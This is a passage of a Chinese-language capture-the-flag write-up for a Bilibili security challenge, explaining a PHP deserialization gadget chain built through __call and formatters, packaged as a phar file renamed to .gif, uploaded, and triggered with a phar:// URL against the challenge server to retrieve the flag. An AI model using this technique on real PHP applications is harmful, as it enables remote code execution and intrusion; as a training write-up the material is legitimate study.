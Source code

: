 ```php
$content->providers = [$show,];
```

而reset方法中，使用了reader ->close()，因为所有类都没有显式定义close方法，我们唯一前进的方向只能是$content的跳板函数

__call()。那么这里，确定了reader属性为 $content，要执行 \$content 的close方法。

我们的思路目前停在了`$content -> __call(close) =>...=> getFormatter(close)($args)`

- 在 `$content->formatters` 中提供close属性作为key，value为array($action, 'run')的话，触发会是这样

  `getFormatter(close)($args)` => `$action.run()`，显然这就是我们想要的。

- 在 `$content->providers ` 中提供close属性的话会怎么样？由于provider从调用形式来看要求provider元素是类实例，例如$show

  ，因此不适合。

现在我们走完了所有的链式调用，并给出了理论上可行的解决方式：

```php
$content->providers = [$show,];
$content->formatters = array('close' => array($action, 'run'));
```

这里就展示完整的代码，如果需要的话请查阅github仓库。

---

最后，还有一个需要注意的地方，Action类中两个字段都是保护的，因此构造时需要手动定义构造函数。

```php
class Action
{
    protected $checkAccess;
    protected $id;

    public function __construct($checkAccess, $id)
    {
        $this->checkAccess = $checkAccess;
        $this->id = $id;
    }
}
```

在构造函数中进行字段设置。



## 探索

本地调用所写的生成phar的php文件，这里是phar.php，得到一个phar文件，将后缀名改为.gif即可。

在 http://42.192.54.239/upload.html 中上传后，将反馈的 upload/20221031224429833.gif 构造为

http://42.192.54.239/upload.php?c=phar://upload/20221031224429833.gif，访问后拿到

```
/**
* bilibili@2022.
* Congratulations! This is The Flag!
* Auth: K3iove@github 
* Repo: 1024-cheers
* @link https://security.bilibili.com/
* @license https://www.bilibili.com/
*/
flag2{PhAr_The_bEsT_Lang}
```
